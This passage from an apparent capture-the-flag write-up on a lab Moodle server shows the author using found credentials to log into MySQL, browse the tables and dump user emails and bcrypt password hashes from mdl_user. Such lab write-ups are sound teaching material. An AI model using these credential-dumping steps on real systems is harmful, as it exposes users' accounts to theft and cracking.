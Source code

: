 With the `mysql` binary location known, could log in with the discovered credentials.

```none
/usr/local/bin/mysql -u moodle -p
```

With access, we can have a look at the databases, select the `moodle` database, and have a look at the tables available

```none
moodle@localhost [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
2 rows in set (0.01 sec)

moodle@localhost [(none)]> use moodle;
Database changed
moodle@localhost [moodle]> show tables;
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
| mdl_analytics_indicator_calc     |
| mdl_analytics_models             |
...snip...
| mdl_upgrade_log                  |
| mdl_url                          |
| mdl_user                         |
| mdl_user_devices                 |
| mdl_user_enrolments              |
...snip...
| mdl_workshopform_rubric_levels   |
+----------------------------------+
428 rows in set (0.01 sec)
```

The `mdl_user` tables seemed like the most logical place to have user data. On foreign databases, I always use `DESCRIBE table_name` to see the contents. I didn't do this in the past, and always had so much trouble reading the output. Anyway, the columns of interest were `email` and `password`.

```none
moodle@localhost [moodle]> select email,password from mdl_user;
+----------------------------------------+--------------------------------------------------------------+
| email                                  | password                                                     |
+----------------------------------------+--------------------------------------------------------------+
| root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
| bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
| orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
| chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
| morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
| heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
| nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
```